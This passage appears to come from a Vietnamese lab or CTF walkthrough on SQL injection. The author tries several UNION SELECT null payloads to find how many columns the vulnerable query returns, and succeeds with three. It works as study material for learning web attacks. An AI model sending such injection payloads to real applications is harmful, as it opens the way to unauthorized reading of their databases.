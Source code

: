 - Tiếp theo mình sẽ thử truy vấn 1 cột nhưng vẫn lỗi tức là truy vấn sai
```
' UNION SELECT null--
```
![](4.png)
- Mình tiếp tục thử với số lượng lớn hơn: 4 cột và vẫn lỗi như vậy.
```
' UNION SELECT null, null, null, null--
```
- Thử tiếp với 3 cột và thành công.
```
' UNION SELECT null,  null, null--
```
![](5.png)